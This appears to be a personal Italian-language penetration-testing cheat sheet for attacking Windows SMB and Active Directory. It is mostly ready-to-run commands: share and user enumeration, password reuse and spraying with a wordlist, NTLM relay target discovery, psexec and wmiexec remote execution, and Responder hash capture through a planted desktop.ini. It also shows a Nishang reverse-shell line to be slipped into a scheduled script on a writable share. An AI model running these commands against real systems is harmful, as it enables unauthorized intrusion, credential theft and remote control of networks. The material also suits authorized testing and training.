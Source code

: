 ### **ENUMERAZIONE SHARE E PERMESSI**
```bash
cme smb <ip> -u guest -p "" --shares
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png)

### **ENUMERAZIONE CONTENUTO SHARES**
```bash
cme smb <IP> -u <USER> -p "<PASS>" -M spider_plus
```
### **ENUMERAZIONE ALTRI USERS**
```bash
crackmapexec smb <IP>-u <USER> -p '<PASS>' --users
```
inserisci gli user in una lista e poi prova a vedere se c'è un riutilizzo delle password
```bash
crackmapexec smb <IP> -u users.txt -p '<PASS>' --continue-on-success
```
### **CHECK VULN SU SMB(MS17-010 ECC...)**
```bash
nmap -p445 --script vuln
```
### **CONNESSIONE A SMB DC**
Si usa il silver ticket :)
```bash
impacket-getTGT '<NOME DOMINIO>/<USER>:<PASS>' 
export KRB5CCNAME=<*>.ccache 
impacket-smbclient <USER>@<NOME DC> -k -no-pass
```
Se da errore KRB_AP_ERR_SKEW
```bash
timedatectl set-ntp false
ntpdate -s <NOME DOMINIO>
```
### **PASSWORD SPRAY**
==OCCHIO ALLE POLICY DELLE PASSWORD PERCHE POTRESTI LOCKARE LE PASSWORD==
```bash
crackmapexec smb <MACHINE-IP> -u <USER> -p /usr/share/wordlists/rockyou.txt
```
### **NTLM RELAY**
Controlliamo tra gli share smb se ce ne è uno con "signing:False"
```bash
crackmapexec smb <IP RANGE> --gen-relay-list relay.txt
```
![[Pasted image 20230825154847.png]]
Da approfondire qaundo si potrà (GOAD)
### **PWN**
```bash
cme smb <IP> <USER> -p "<PASS>"
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png)
poi
```bash
psexec.py <NOME DOMINIO>/<USER>@<IP>
```
o
```bash
wmiexec.py <NOME DOMINIO>/<USER>@<IP>
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/3.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/3.png)

### **REVERSE SHELL**
In caso te abbia permessi di scrittura sullo share e ci sia uno script che venga runnato ogni tot, sostituisce lo script o aggiungici questa riga
[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)
```bash
Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <PORT>
```
### **SCRITTURA SULLO SHARE**
*Desktop.ini*
Carica un file desktop.ini
```powershell
[.ShellClassInfo]
IconResource=\\<ip>\test
```
logga come utente con i permessi
```bash
smbclient //<IP>/<SHARE> -U <USER>
```
e ascolta con responder
```bash
responder -I tun0 -wPv
```
